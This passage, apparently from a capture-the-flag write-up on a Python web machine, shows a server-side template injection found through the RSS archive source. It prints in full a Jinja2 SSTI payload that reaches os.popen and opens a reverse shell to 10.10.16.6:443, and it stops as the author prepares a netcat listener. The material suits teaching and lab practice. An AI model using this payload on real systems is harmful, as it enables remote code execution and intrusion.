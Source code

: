 
I know that the webserver is running on python. I may use some technology like Jinja and Django which might be vulnerable to an SSTI. So I got my [Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology) ready and tried some things out:

![Untitled](/assets/images/2022-04-06-doctor/Untitled1.png)

Both tries did not work and I got confused. So I search through the archive, but nothing. Later I accidently opened up the source code of archive and found something:

```
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>16[[5*5]] 7777777</title></item>

			</channel>
			<item><title>${7*7}</title></item>

			</channel>
```

It seems like the application execute the code that works for Jinja2 or Twig. So let's create a shell. I do not know that much of SSTIs, so I just grab the payload "[Exploit the SSTI by calling Popen without guessing the offset](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)":

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.16.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Start a netcat listener and create a new message:
